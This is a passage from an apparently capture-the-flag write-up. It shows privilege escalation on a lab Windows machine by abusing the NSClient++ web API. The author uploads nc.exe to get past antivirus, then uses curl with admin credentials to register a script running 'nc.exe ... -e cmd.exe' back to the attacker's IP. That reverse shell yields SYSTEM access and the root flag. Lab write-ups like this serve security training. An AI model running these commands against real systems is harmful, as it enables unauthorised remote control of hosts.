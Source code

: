 I tried to download `nc.exe` with certutils but it was blocked by the AV too.

So I downloaded it via scp:

```
$ scp nc.exe nadine@10.10.10.184:/temp/nc.exe
```

I tried to create the RCE via the webUI as in the exploit but wasn't successful.

- https://127.0.0.1:9999/index.html#/settings/settings/external%20scripts/scripts
- https://127.0.0.1:9999/index.html#/settings/settings/scheduler/schedules

So instead I created the task via the API:

```
$ curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://127.0.0.1:9999/api/v1/scripts/ext/scripts/noraj.bat --data-binary "c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe"
Added noraj as scripts\noraj.bat

$ curl -s -k -u admin:ew2x6SsGTxjRwXOT https://127.0.0.1:9999/api/v1/queries/noraj/commands/execute\?time\=1m
{"command":"noraj","lines":[{"message":"Command noraj didn't terminate within the timeout period 60s","perf":{}}],"result":3}
```

And finally got a privileged shell:

```
$ nc -nlp 8888
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system

C:\Program Files\NSClient++>type c:\users\administrator\desktop\root.txt
72c07cb24f21e63a855346edcd0816cb
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[msf]:https://inventory.raw.pm/tools.html#Metasploit
